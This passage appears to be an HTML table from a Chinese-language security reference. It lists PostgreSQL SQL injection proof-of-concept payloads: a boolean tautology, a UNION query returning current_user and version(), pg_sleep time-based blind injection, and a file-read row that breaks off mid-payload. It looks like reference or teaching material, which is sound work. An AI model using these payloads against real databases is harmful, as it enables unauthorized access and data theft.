 <table><tbody><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注入类型</span></font></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">POC示例</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">关键函数</span></font><font face="方正小标宋_GBK"><span leaf="">/特性</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">布尔检测</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; OR &#39;1&#39;=&#39;1&#39; --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="mso-pagination:widow-orphan;text-align:left;"><span style=""><font face="方正小标宋_GBK"><span leaf="">单引号闭合</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td></tr><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">联合查询</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT current_user, version() --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">current_user, version()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">时间盲注</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">`&#39;pg_sleep(5) -- `</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">pg_sleep()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">文件读取</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT